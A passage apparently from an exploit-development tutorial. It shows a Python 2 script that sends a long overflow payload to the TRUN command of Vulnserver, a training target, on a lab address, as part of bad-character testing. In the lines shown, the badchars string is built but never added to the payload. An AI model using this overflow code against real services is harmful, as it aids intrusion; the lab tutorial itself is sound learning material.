```python
badchars += "\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1"
badchars += "\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc"
badchars += "\xfd\xfe\xff"

payload = 'A' * 2006 + "B" * 4 + "C" * (3500-2006-4-len(badchars))

try:
    print "\nSending tons of random bytes..."
    s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    connect=s.connect(('192.168.0.24',9999))
    s.recv(1024)
    s.send(('TRUN .' + payload + '\r\n'))
    s.recv(1024)
    s.send('EXIT\r\n')
    s.close()
    print "\nDone! Wonder if we got that shell back?"
except:
    print "Could not connect to 9999 for some reason..."
```

we lauch our PoC and check the output

![Vulnserver_4](/static/img/01/5.png)
